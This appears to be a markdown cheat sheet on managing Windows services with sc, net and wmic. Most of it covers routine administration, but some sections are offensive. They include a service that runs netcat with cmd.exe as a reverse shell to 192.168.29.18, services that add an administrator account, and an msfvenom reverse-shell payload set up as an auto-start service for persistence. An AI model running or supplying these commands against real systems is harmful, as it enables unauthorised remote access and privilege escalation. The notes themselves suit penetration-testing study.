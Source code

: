 
### Quering Services

*   Display inforamtionabout a specified service

```powershell
sc query
```

*   Display extended information about a service

```powershell
sc queryex type=service
```

*    Display services of type __'service'__

```powershell
sc query type=service
```    

*   Find specific service state

```powershell
sc query | find "STATE"
```

*   Find a specific service by name

```powershell
sc query | find "Server"
```

*    Query a specific service

```powershell
sc query <Service_name>
```


### Service COnfigguration

*   Display the configuration of a service

```powershell
sc qc <Service_Name>
```

*   Stop a service

```powershell
sc stop <Service_Name>
```

*   Start a service

```powershell
sc start <Service_name>
```

*   Pause a Service

```powershell
sc pause <Service_name>
```

* Resume a paused service
  
```powershell
sc continue <Service_name>
```

*   Configure service startup and login accounts

```powershell
sc config <Service_name>
```

### Creating and Managing Services

*   Create a new Service

```powershell
sc create nc binPath= "C:\Windows\System32\nc64.exe"
```

* Query the configuration of a created service

```powershell
sc qc nc
```

*   Query the status of a created service

```powershell
sc query nc
```

* Start the created service

```powershell
sc start nc
```

*   Delete a service

```powershell
sc delete nc
```

* configure a service to run a specific command
  
```powershell
sc config nc binPath= "C:\Windows\System32\nc64.exe 192.168.29.18 4444 -e cmd.exe"
```

*   Create a service to sned ICMP packets

```powershell
sc create pingme binPath= "ping 192.168.29.18"
```

*   Create a User creation Service

```powershell
sc create useradd binPath= "net user u1 DevNull@123 /add"
```

*   Configure a service to add a user to administrators group

```powershell
sc config useradd binPath= "net localgroup administrators u1 /add"
```

### Exploitation Example

*   Generate a reverse shell executable using ```msfvenom```

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.29.18 LPORT=4455 -f exe > shell.exe
```

*   Configure a service to execute the shell

```powershell
sc create nc binPath= "C:\Windows\Temp\shell.exe"
```

```powershell
sc config nc start= auto
```

*   ```auto``` - Automatic startup
*   ```demand``` - Manual Startup
*   ```disabled``` - Disabled

* Restart the system immediately

```powershell
shutdown /r /t 0 /f
```

### Service Management using ```net```

*   start a service using ```net```

```powershell
net start <Service_name>
```

*   Stop a service using ```net```

```powershell
net stop <Service_name>
```

*   Pause a service using ```net```


```powershell
net pause <Service_Name>
```

*   Resume a paused service using ```net```

```powershell
net pause <Service_name>
```

### Using ```wmic``` to manage service

*   List all services with details

```powershell
wmic service get name,displayname,pathname,startmode
```

*   List all auto-start services

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

*   List all auto-start service excluding those in ```C:\Windows```

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows"
```


### Additional Resources

*   [service security editor](https://coretechnologies.com/products/ServiceSecurityEditor)